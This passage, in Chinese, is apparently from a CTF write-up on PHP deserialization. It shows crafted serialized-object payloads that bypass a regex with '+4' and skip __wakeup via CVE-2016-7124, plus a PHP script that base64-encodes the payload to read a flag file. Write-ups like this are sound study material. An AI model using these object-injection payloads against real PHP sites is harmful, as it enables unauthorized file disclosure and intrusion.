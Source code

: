 绕过正则匹配(数字前面加一个”+”号)：  
`O:+4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}`

而要令wakeup方法不执行，就需要绕过wakeup方法，这里用到的是php的一个漏洞（CVE-2016-7124），把”Demo”后面的”1”参数改为2或者其他更大的整数：  
`O:+4:"Demo":2:{s:10:" Demo file";s:8:"fl4g.php";}`

这里还要先对payload进行加密，于是得到完整的构造payload代码：  
```
<?php
class Demo {
    private $file = 'index.php';
    public function __construct($file) {
        $this->file = $file;
    }
    function __destruct(){
        echo @highlight_file($this->file,true);
    }
    function __wakeup(){
        if($this->file != 'index.php'){
            $this->file = 'index.php';
        }
    }
}
$var = new Demo("fl4g.php");
$o = serialize($var);
echo $o;
$str1 = str_replace(":4:",":+4:",$o);
$str2 = str_replace(":1:",":2:",$str1);
$str3 = base64_encode($str2);
var_dump($str3);
?>
```

得到最终payload，`TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`，输入到网页得到flag
![](serialize-unserialize/2.png)

![](serialize-unserialize/3.png)
<br>
